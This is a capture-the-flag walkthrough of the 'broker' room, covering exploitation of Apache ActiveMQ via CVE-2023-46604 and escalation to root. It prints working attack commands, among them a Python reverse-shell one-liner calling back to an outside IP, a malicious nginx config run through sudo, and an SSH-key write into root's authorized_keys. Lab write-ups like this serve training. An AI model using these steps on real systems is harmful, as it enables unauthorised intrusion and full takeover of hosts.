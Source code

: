 # Broker – ActiveMQ Exploitation and Privilege Escalation

**Target:** `broker` (CTF Room)
**Goal:** Exploit Apache ActiveMQ (CVE-2023-46604) for RCE, escalate privileges to root via misconfigured `nginx` sudo access.


## 1. Reconnaissance

Performed a full TCP port and service scan:

**nmap -p- -sV -T4 -oN full.nmap <target-ip>**

Open ports:

* **8161** – Apache ActiveMQ Web Console
* **61616** – OpenWire protocol (used by ActiveMQ clients)

---

## 2. Gaining Access via Apache ActiveMQ (RCE)

Checked for an exposed web interface:

**curl http\://target-ip:8161/**

Tested default login credentials:

**admin\:admin** → Success

Identified the version as vulnerable to **CVE-2023-46604**.

Cloned the exploit:

**git clone [https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell.git]([https://github.com/zeze-zeze/CVE-2023-46604](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell.git))**
**cd CVE-2023-46604**

Ran the exploit:

**python3 exploit.py -i <target-ip> -p 61616 -si <your-ip> -sp 8080**

> Result: Semi-interactive pseudo-shell as `activemq` user.

---

## 3. Reverse Shell Upgrade

Set up a listener:

**nc -lvnp 4444**

Triggered a reverse shell from the pseudo-shell:

**python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(\["/bin/bash"])'**

> Result: Full interactive shell as `activemq`.

---

## 4. Privilege Escalation via NGINX

Checked sudo permissions:

**sudo -l**

Found:

**(ALL : ALL) NOPASSWD: /usr/sbin/nginx**

Created a malicious NGINX configuration:

**/tmp/nginx\_pwn.conf**

```
user root;
worker_processes 1;
pid /tmp/nginx.pid;
events {
    worker_connections 1024;
}
http {
    server {
        listen 8088;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

Started NGINX as root:

**sudo /usr/sbin/nginx -c /tmp/nginx\_pwn.conf**

---

## 5. Gaining Root via SSH

Generated an SSH key:

**ssh-keygen -t rsa -f /tmp/root\_key -N ""**

Uploaded the public key to root's authorized\_keys:

**curl -X PUT --data-binary "@/tmp/root\_key.pub" [http://127.0.0.1:8088/root/.ssh/authorized\_keys](http://127.0.0.1:8088/root/.ssh/authorized_keys)**

Set permissions and connected:

**chmod 600 /tmp/root\_key**
**ssh -i /tmp/root\_key root@<target-ip>**

> Result: Root shell obtained.

---

## 🔢 Outcome

* **Initial Access:** RCE using CVE-2023-46604
* **Shell:** Reverse shell via Python
* **Privilege Escalation:** Sudo access to nginx and file upload trick
* **Final Access:** Root via SSH key injection

---
